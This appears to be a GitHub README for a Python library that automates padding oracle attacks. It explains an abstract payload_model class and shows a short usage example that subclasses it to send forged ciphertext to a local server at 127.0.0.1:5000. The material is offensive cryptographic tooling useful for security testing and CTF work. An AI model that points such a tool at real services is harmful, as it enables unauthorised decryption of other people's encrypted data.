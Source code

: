 a library for padding oracle attack
---

Payload_model is a abstract class handling all details of padding oracle attack algorithm.
You should specify a subclass of payload_model and change some import methods. You can customize it to fit different environment.

basic usge
---
```python
from padding_oracle_attack import payload_model
import grequests
from grequests import request

class payload(payload_model):

    def make_request(self, fake_data) -> request:
        params = {
                "data": bytes.hex(fake_data)
            }

        return request("get", "http://127.0.0.1:5000", params=params)

if __name__ == "__main__":
    m = payload("3a10f84900818b1c439430600524fb0f00000000000000000000000000000000")
    m.run()
```
![record](https://github.com/lcark/padding_oracle_attack/raw/main/media/Fpadding_snap.GIF)

result picture
---

![result](https://github.com/lcark/padding_oracle_attack/raw/main/media/result.png)